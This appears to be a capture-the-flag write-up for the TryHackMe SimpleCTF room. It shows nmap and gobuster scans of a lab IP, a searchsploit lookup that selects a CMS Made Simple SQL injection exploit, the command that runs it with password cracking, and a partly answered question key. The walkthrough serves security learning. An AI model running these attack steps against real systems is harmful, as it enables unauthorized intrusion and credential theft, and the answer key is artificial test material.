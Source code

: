 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


---
#### nmap scan:
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan:
`gobuster dir -u http://10.10.90.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`



#### search for exploits:

`searchsploit cms made simple`

```
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                                                                                                                      | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection <------- Using this one                                                                                                                                                     | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target:
`python2 exploit.py -u http://10.10.90.196/simple --crack -w /usr/share/wordlists/rockyou.txt`


---
#### Key:


Q: How many services are running under port 1000?

2

Q: What is running on the higher port?

SSH


Q: What's the CVE you're using against the application?

Q: To what kind of vulnerability is the application vulnerable?

Q: What's the password?

Q: Where can you login with the details obtained?

Q: What's the user flag?

Q: Is there any other user in the home directory? 

Q: What's its name?

Q: What can you leverage to spawn a privileged shell?